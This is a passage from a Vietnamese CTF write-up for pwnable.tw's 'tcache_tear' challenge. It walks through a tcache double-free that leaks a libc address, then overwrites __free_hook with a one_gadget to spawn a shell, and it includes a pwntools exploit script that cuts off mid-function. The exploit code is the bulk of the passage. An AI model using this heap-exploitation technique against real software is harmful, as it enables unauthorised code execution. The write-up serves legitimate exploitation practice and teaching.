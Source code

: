 - à lời khuyên là mỗi lần **Double Free** ta nên khởi tạo 1 chunk có size khác nhau để tránh bug nha
- lúc này ta đã free được name_addr vào unsorted bins rồi, h ta leak libc thôi
```python 
# 0x3ebca0 
p.recvuntil(b'Name :')
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x3ebca0
log.info('libc leak: ' + hex(libc_leak))
log.info('libc base: ' + hex(libc.address))
```
- đã có libc rồi, để làm nhanh thì mình dùng **one_gadget luôn gán vào __free_hook**, cách làm tương tự như trên, sau đó ta free rồi lấy shell thôi 
```python 
one_gadget = libc.address + 0x4f322
#0x4f322 0x10a38c
add(0x70, b'a' * 16)
delete()
delete()
add(0x70, p64(libc.sym['__free_hook']))
add(0x70, p64(libc.sym['__free_hook']))
add(0x70, p64(one_gadget))
delete()
```
- dee và ta đã có được flag

![image](https://github.com/gookoosss/CTF/assets/128712571/65873745-a89a-4b73-9cd4-a9abca92f0ac)


## script 

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./tcache_tear_patched")
libc = ELF("./libc-18292bd12d37bfaf58e8dded9db7f1f5da1192cb.so")
ld = ELF("./ld-2.27.so")

context.binary = exe
# p = process([exe.path])

# gdb.attach(p, gdbscript= '''
# b*0x400C54
# b*0x400C59
# b*0x400B54
# b*0x400B59
# b*0x400b90
# b*0x400BA9
# c
# ''')
# input()

p = remote("chall.pwnable.tw", 10207)

name_addr = 0x602060
ptr = 0x602088

def add(size, data):
    p.sendafter(b'choice :', b'1')
    p.sendafter(b'Size:', str(size))
    p.sendafter(b'Data:', data)

def delete():
```